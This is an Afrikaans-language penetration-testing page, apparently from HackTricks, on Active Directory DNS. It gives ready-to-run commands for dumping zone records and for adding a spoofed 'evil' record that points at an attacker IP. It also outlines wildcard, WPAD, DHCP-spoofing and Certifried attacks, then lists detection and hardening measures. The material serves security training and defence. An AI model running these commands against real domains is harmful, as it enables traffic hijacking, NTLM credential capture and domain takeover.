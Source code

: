 # AD DNS Rekords

{{#include ../../banners/hacktricks-training.md}}

Standaard kan **enige gebruiker** in Active Directory **alle DNS rekords** in die Domein of Woud DNS sones **opnoem**, soortgelyk aan 'n sonetransfer (gebruikers kan die kindobjekte van 'n DNS son in 'n AD omgewing lys).

Die hulpmiddel [**adidnsdump**](https://github.com/dirkjanm/adidnsdump) stel **opname** en **uitvoer** van **alle DNS rekords** in die sone vir rekonsiliasiedoele van interne netwerke in staat.
```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

# Enumerate the default zone and resolve the "hidden" records
adidnsdump -u domain_name\\username ldap://10.10.10.10 -r

# Quickly list every zone (DomainDnsZones, ForestDnsZones, legacy zones,…)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --print-zones

# Dump a specific zone (e.g. ForestDnsZones)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --zone _msdcs.domain.local -r

cat records.csv
```
>  adidnsdump v1.4.0 (April 2025) voeg JSON/Greppable (`--json`) uitvoer, multi-threaded DNS-resolusie en ondersteuning vir TLS 1.2/1.3 by wanneer dit aan LDAPS bind

Vir meer inligting lees [https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

---

## Skep / Wysig rekords (ADIDNS spoofing)

Omdat die **Geoutentiseerde Gebruikers** groep standaard **Skep Kind** op die sone DACL het, kan enige domeinrekening (of rekenaarrekening) addisionele rekords registreer. Dit kan gebruik word vir verkeerskapings, NTLM relay dwang of selfs volle domeinkompromie. 

### PowerMad / Invoke-DNSUpdate (PowerShell)
```powershell
Import-Module .\Powermad.ps1

# Add A record evil.domain.local → attacker IP
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Verbose

# Delete it when done
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Delete -Verbose
```
### Impacket – dnsupdate.py  (Python)
```bash
# add/replace an A record via secure dynamic-update
python3 dnsupdate.py -u 'DOMAIN/user:Passw0rd!' -dc-ip 10.10.10.10 -action add -record evil.domain.local -type A -data 10.10.14.37
```
*(dnsupdate.py word saam met Impacket ≥0.12.0)*

### BloodyAD
```bash
bloodyAD -u DOMAIN\\user -p 'Passw0rd!' --host 10.10.10.10 dns add A evil 10.10.14.37
```
---

## Algemene aanval primitiewe

1. **Wildcard rekord** – `*.<zone>` verander die AD DNS bediener in 'n onderneming-wye responder soortgelyk aan LLMNR/NBNS spoofing. Dit kan misbruik word om NTLM hashes te vang of om dit na LDAP/SMB te relaye.  (Vereis dat WINS-lookup gedeaktiveer moet wees.)
2. **WPAD hijack** – voeg `wpad` (of 'n **NS** rekord wat na 'n aanvaller gasheer wys om die Global-Query-Block-List te omseil) by en proxy deursigtig uitgaande HTTP versoeke om akrediteer te versamel.  Microsoft het die wildcard/ DNAME omseilings reggestel (CVE-2018-8320) maar **NS-rekords werk steeds**.
3. **Stale entry takeover** – eis die IP adres wat voorheen aan 'n werkstasie behoort het en die geassosieerde DNS inskrywing sal steeds oplos, wat hulpbron-gebaseerde beperkte delegasie of Shadow-Credentials aanvalle moontlik maak sonder om DNS te raak.
4. **DHCP → DNS spoofing** – op 'n standaard Windows DHCP+DNS implementering kan 'n nie-geoutentiseerde aanvaller op dieselfde subnet enige bestaande A rekord (insluitend Domein Beheerders) oorskryf deur vervalste DHCP versoeke te stuur wat dinamiese DNS opdaterings aktiveer (Akamai “DDSpoof”, 2023).  Dit gee masjien-in-die-middel oor Kerberos/LDAP en kan lei tot volle domein oorneem.
5. **Certifried (CVE-2022-26923)** – verander die `dNSHostName` van 'n masjienrekening wat jy beheer, registreer 'n ooreenstemmende A rekord, en versoek dan 'n sertifikaat vir daardie naam om die DC na te doen. Gereedskap soos **Certipy** of **BloodyAD** outomatiseer die vloei volledig.

---

## Opsporing & versterking

* Weier **Geoutentiseerde Gebruikers** die *Skep alle kind objekte* reg op sensitiewe sones en deleger dinamiese opdaterings aan 'n toegewyde rekening wat deur DHCP gebruik word.
* As dinamiese opdaterings vereis word, stel die sone in op **Seker-net** en aktiveer **Naam Beskerming** in DHCP sodat slegs die eienaar rekenaar objek sy eie rekord kan oorskryf.
* Monitor DNS Bediener gebeurtenis ID's 257/252 (dinamiese opdatering), 770 (sone oordrag) en LDAP skrywe na `CN=MicrosoftDNS,DC=DomainDnsZones`.
* Blokkeer gevaarlike name (`wpad`, `isatap`, `*`) met 'n doelbewus-goedaardige rekord of via die Global Query Block List.
* Hou DNS bedieners op datum – byvoorbeeld, RCE foute CVE-2024-26224 en CVE-2024-26231 het **CVSS 9.8** bereik en is op afstand uitbuitbaar teen Domein Beheerders.

## Verwysings

* Kevin Robertson – “ADIDNS Herbesoek – WPAD, GQBL en Meer”  (2018, steeds die de-facto verwysing vir wildcard/WPAD aanvalle)
* Akamai – “Spoofing DNS Rekords deur DHCP DNS Dinamiese Opdaterings te Misbruik” (Des 2023)
{{#include ../../banners/hacktricks-training.md}}
